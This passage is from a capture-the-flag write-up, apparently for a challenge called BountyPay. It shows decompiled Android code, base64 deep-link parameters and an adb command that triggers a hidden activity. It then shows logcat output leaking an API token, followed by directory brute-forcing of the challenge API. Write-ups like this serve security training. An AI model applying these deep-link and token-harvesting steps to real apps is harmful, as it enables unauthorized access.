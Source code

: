 ```java
            public void onDataChange(DataSnapshot param1DataSnapshot) {
              String str = (String)param1DataSnapshot.getValue();
              if (firstParam != null && decodedFirstParam.equals("PartThreeActivity") && secondParam != null && decodedSecondParam.equals("on")) {
                String str1 = thirdParam;
                if (str1 != null) {
                  StringBuilder stringBuilder = new StringBuilder();
                  stringBuilder.append("X-");
                  stringBuilder.append(str);
                  if (str1.equals(stringBuilder.toString())) {
                    editText.setVisibility(0);
                    button.setVisibility(0);
                    PartThreeActivity.this.thread.start();
                  } 
                } 
              } 
            }
          });
    } 
```

three=base64('PartThreeActivity')
switch=base64('on')

```bash
adb shell am start -a "android.intent.action.VIEW" -d "three://part?three=UGFydFRocmVlQWN0aXZpdHk=\&switch=b24=\&header=X-Token"
```
In other window i started logcat to capture app output.

```bash
adb -d logcat bounty.pay:I
```
{F858224}

```bash
HOST IS: : http://api.bountypay.h1ctf.com
TOKEN IS: : 8e9998ee3137ca9ade8f372739f062c1
HEADER VALUE AND HASH : X-Token: 8e9998ee3137ca9ade8f372739f062c1
```
Insert leaked hash and submit.

{F858220}
Bingo! all android challenges completed.

5. Sensitive information disclosure
---------------------
At this time i can consume api with X-Token.

Brute forcing api directories to get endpoints to consume.

```bash
400 -   22B  - /api/accounts/login
400 -   22B  - /api/accounts/signin
400 -   22B  - /api/accounts/logon
200 -  104B  - /api/staff
200 -  104B  - /api/staff/
```
Then open https://api.bountypay.h1ctf.com/api/staff and send to burp repeater to add X-Token header
